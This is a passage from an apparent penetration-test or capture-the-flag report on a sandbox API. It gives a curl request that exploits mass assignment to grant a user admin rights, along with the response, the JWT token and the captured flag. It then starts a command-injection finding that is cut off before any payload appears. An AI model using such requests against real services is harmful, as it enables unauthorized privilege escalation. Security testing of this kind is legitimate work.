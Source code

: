 **Prerequisites:**

- Valid authentication token

**Exploitation Steps:**

1. **Send profile update request with admin privilege escalation:**
    
    ```bash
    curl -X PUT "<http://capital-api.sandbox.local:8000/api/user>" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -H "Content-Type: application/json" \\
      -d '{
        "user": {
          "admin": true
        }
      }'
    
    ```
    
2. **Receive updated profile with admin privileges:**
    
    ```json
    {
      "user": {
        "username": "exploiter1",
        "email": "exploiter1@test.com",
        "bio": "flag{M4sS_AsS1gnm3nt}...",
        "image": null,
        "admin": true,
        "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImV4cGxvaXRlcjEiLCJleHAiOjE3NTkxNzQ1OTYsInN1YiI6ImFjY2VzcyJ9.UOxR-uymoNWBEpL-uHtdz6deTqgr3n4wDoKryqhYKZA"
      }
    }
    
    ```
    

**Proof of Impact:**

- Successfully escalated user privileges: `"admin": true`
- Obtained new admin-level JWT token
- Captured CTF flag: `flag{M4sS_AsS1gnm3nt}` (Mass Assignment vulnerability)
- Demonstrated complete privilege escalation through self-service profile update

### AUTHZ-VULN-08: Command Injection via Debug Endpoint (Critical Impact)

**Summary:**

- **Vulnerable location:** POST /api/debug
- **Overview:** Any authenticated user can execute system commands through command injection bypass
- **Impact:** Remote code execution as root user, complete system compromise
- **Severity:** Critical

**Prerequisites:**

- Valid authentication token
